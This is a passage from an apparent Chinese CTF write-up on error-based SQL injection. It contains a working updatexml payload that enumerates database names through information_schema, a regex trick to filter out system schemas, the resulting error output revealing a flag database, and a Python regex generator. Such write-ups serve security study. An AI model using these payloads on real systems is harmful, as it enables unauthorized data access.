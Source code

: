即传入：

```http
name=1'or(updatexml(1,concat('~',(select(group_concat(distinct(table_schema)))from(information_schema.columns)where(not(table_schema)rlike('[h,i,m]{1}[o,n,y]{1}[m,f,s]{1}[e,o,q]{1}[w,r,l]{1}[o,m]{0,1}[r,a]{0,1}[k,t]{0,1}[i]{0,1}[o]{0,1}[n]{0,1}[_]{0,1}[s]{0,1}[c]{0,1}[h]{0,1}[e]{0,1}[m]{0,1}[a]{0,1}')))),1))%23
```

看起来似乎更复杂了，是吗？但是其实这并不复杂，因为可以由脚本自动生成该正则表达式。

需要注意的是，这并不是精准匹配，如果有一个数据库名为homewrk的话，也会将其去除，但是一般而言，数据库的名字不会取得如此稀奇古怪，传入该参数可以得到：

```http
XPATH syntax error: '~performance_schema,sys,test,zz
```

> 这里其实本来test1、test2...test10都是为了能够把zzz_flag_db排序排到后面去，但是忘了在数据库里创表，所以不会在information_schema.columns里出现该库。

然后再去除performance_schema的话，修改正则为：

```regex
[h,i,m,p]{1}[o,n,y,e]{1}[m,f,s,r]{1}[e,o,q,f]{1}[w,r,l,o]{1}[o,m,r]{0,1}[r,a,m]{0,1}[k,t,a]{0,1}[i,n]{0,1}[o,c]{0,1}[n,e]{0,1}[_]{0,1}[s]{0,1}[c]{0,1}[h]{0,1}[e]{0,1}[m]{0,1}[a]{0,1}
```

传入后可以得到回显为：

```http
XPATH syntax error: '~sys,test,zzz_flag_db'
```

这里附上正则表达式生成的脚本：

```python
databases = ['homework', 'information_schema', 'mysql','performance_schema']

length = -1
minLength = 0x777

for database in databases:
    length = max(length, len(database))
    minLength = min(minLength, len(database))

payload = ''

for i in range(length):
    regexChar = '['
    for database in databases:
        if i < len(database):
            if  len(regexChar) >= 2:
                if database[i] != regexChar[-2]:
                    regexChar += database[i] + ','
            else:
                regexChar += database[i] + ','
    if i < minLength:
        regexChar = regexChar[:-1] + ']{1}'
    else:
        regexChar = regexChar[:-1] + ']{0,1}'
    payload += regexChar

print(payload)
```
